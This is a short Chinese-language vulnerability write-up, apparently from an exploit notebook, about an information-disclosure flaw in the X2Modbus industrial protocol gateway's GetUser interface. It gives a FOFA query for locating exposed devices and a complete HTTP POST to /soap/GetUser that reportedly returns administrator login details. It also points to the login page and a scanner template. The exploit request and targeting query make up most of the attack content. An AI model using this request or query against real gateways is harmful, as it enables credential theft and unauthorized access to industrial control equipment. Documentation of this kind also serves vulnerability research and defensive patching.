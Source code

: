 # 上海迅饶自动化科技有限公司X2Modbus网关GetUser存在敏感信息泄露

# 一、漏洞简介
X2Modbus是上海迅饶自动化科技有限公司开发的一款功能很强大的协议转换网关， 这里的X代表各家不同的通信协议， 2是To的谐音表示转换， Modbus就是最终支持的标准协议是Modbus协议。用户可以根据现场设备的通信协议进行配置，转成标准的Modbus协议。在PC端仿真运行无误后，上传到硬件协议转换网关。X2Modbus网关GetUser接口存在一个信息泄漏漏洞，使得未经授权的用户或攻击者可以获取管理员登录信息。

# 二、影响版本
+ X2Modbus

# 三、资产测绘
+ fofa`server="SunFull-Webs" || icon_hash="-1384370370"`
+ 特征

![1710416347834-b54d34ac-c701-4de7-aa01-4e4e7792c936.png](./img/EVgnPN6fawjgwB7g/1710416347834-b54d34ac-c701-4de7-aa01-4e4e7792c936-622823.png)

# 四、漏洞复现
```java
POST /soap/GetUser HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 56

<GetUser><User Name="admin" Password="admin"/></GetUser>
```

![1710416390196-3387ee8a-9cdd-424f-bc3e-7b2d914750c2.png](./img/EVgnPN6fawjgwB7g/1710416390196-3387ee8a-9cdd-424f-bc3e-7b2d914750c2-249481.png)

登录入口

```java
/login.html
```

![1710416447837-d287970f-4360-49a1-bebc-bd4bc9354b0f.png](./img/EVgnPN6fawjgwB7g/1710416447837-d287970f-4360-49a1-bebc-bd4bc9354b0f-768042.png)

[X2Modbus-getuser-info.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1713257450749-41ffa537-94d2-4a1a-acf8-8d523ae4e463.yaml)



> 更新: 2024-04-16 16:50:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ciccosqccoem25bz>